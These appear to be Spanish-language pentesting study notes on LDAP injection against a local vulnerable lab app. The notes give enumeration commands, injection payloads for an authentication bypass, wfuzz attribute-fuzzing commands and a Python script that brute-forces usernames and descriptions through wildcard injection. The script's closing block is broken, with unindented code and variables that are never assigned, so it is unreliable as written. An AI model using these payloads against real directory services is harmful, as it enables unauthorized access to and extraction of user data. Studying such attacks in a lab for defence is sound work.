 # Inyecciones LDAP

Tags: #LDAP #OWASP #Explotacion #AD 

* [LDAP](https://www.profesionalreview.com/2019/01/05/ldap/)

Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

-   Acceder a información de usuarios o recursos que no debería tener acceso.
-   Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
-   Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.

Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.

A continuación, se proporciona el enlace directo al proyecto de GitHub que nos descargamos para desplegar un laboratorio práctico donde poder ejecutar esta vulnerabilidad:

-   **LDAP-Injection-Vuln-App**: [https://github.com/motikan2010/LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)

Este es el puerto estándar para LDAP (Lightweight Directory Access Protocol), que se utiliza para acceder y gestionar los servicios de directorio. En el contexto de AD, LDAP se usa para realizar consultas y cambios en el directorio de AD.
## LDAP

```bash 
https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap   # Web con comandos LDAP

❯ ldapsearch -x -h <IP> -s base namingcontexts         # Hacemos un 'simple authentication' para enumerar 
❯ ldapsearch -x -h <IP> -b 'DC=example'                # Enumeramos el dominio 
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'   # Podemos ver informacion del usuario admin 

	# b,dc,dc = Base de busqueda, que el dominio seria example.org
	# D = Nombre distinguido
	# 1er_cn = Usuario a autenticar
	# w = Password 
	# x = Autenticacion simple (Usuario, Passwd)
	# 2do_cn = Criterio de busqueda y si existe que nos reporte la informacion  
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=omar'    # Para enumerar un usuario especifico como 'omar'
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=omar)(description=LDAP*))'

	# (&(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'y' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
	# (|(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'o' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
```

```bash
❯ ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldif  # Creara un usuario en base a un archivo que le pasemos
```

```python
❯ nvim newuser.ldif
	dn: uid=omar,cd=example,dc=org
	uid: omar
	cn: omar
	sn: 3
	objectClass: top
	objectClass: posixAccount
	objectClass: inetOrgPerson
	loginShell: /bin/bash
	homeDirectory: /home/omar
	uidNumber: 14583102
	gidNumber: 14564100
	userPassword: omar123                      # Automaticamente pasara la passwd a base64
	mail: omar@omarcorp.com
	description: Es una prueba 
	telephoneNumber: 6467548712
```

## Inyecciones

```bash
❯ id=a* &password=*                                  # Nos ayuda a decir que existe cualquier tipo de data y por ende nos ayuda a enumerar usuarios validos

	# a* = Decimos que el usuario empieza con 'a' y despues contiene data, podria ser 'admin'
```

```bash
❯ id=admin))%00 &password=test                        # Es como si hicieramos esto = (&(cn=admin))%00)(userPassword=*))

	# %00 = Es un Null byte, que con )) nos ayuda a comentar el resto de la query y no lea la parte de la passwd
```

```bash
❯ /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt            # Diccionario con atributos para LDAP
```

Enviaremos data por **POST** para hacer el Fuzzing de los atributos
```bash
❯ wfuzz -c --hh=439 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
	# hh = Ocultar los caracteres que tengan como resultado 439
```

```bash
❯ wfuzz -c -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# user_id = * es para enumerar todos los usuarios, ya que esta haciendo match con data
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Para hacer Fuzzing a un atributo especifico, en este caso para el telephoneNumber
```bash
❯ wfuzz -c --hh=439 -z range,0-9 -d 'user_id=omar)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# Nos descubriria siempre un numero, y lo debemos de agregar antes de la palabra FUZZ, asi hasta encontrar el numero final
	# FUZZ = Ahi se sustituira el diccionario
	# z = Diccionario de tipo range 
	# user_id = Buscar por un usuario especifico
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Script para enumerar usuario validos, pero estos tienen atributos como:
* mail
* telephoneNumber
```python
❯ nvim ldapi.py
	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:8888/"

	def getInitialUsers():
		characters = string.ascii_lowercase
		initial_users = []
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		for character in characters:
			post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
			r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
			if r.status_code == 301:
				initial_users.append(character)
		return initial_users

	def getUsers(initial_users):
		characters = string.ascii_lowercase + string.digits
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		valid_users = []
		for first_character in initial_users: 
			user = ""
			for position in range(0, 15):     
				for character in characters:
					post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
					r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
					if r.status_code == 301:
						user += character 
						break
			valid_users.append(first_character + user)
		print("\n")
		for user in valid_users:
			log.info("Usuario valido encontrado: %s" % user)
		print("\n")
		return valid_users

	def getDescription(user):                   # Para un usuario especifico
		characters = string.ascii_lowercase + ' '
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}	
		description = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Descripcion")
		for position in range(0, 50):
			for character in characters:
				post_data = "user_id={})(description={}{}*))%00*&password=*&login=1&submit=Submit".format(user, description, character)
				r = requests.post(main_url, headers=headers, data=post_data, allow_redirects=False)
				if r.status_code == 301:
					description += character 
					p2.status(description)
					break
		p1.success("Proceso de Fuerza Bruta concluido")
		p2.success("La descripcion del usuario es: %s" % description)

	if __name__ == '__main__':
	getInitialUsers()
	getUsers(initial_users)
	for i in range(0, 5):
		getDescription(valid_users[i])
```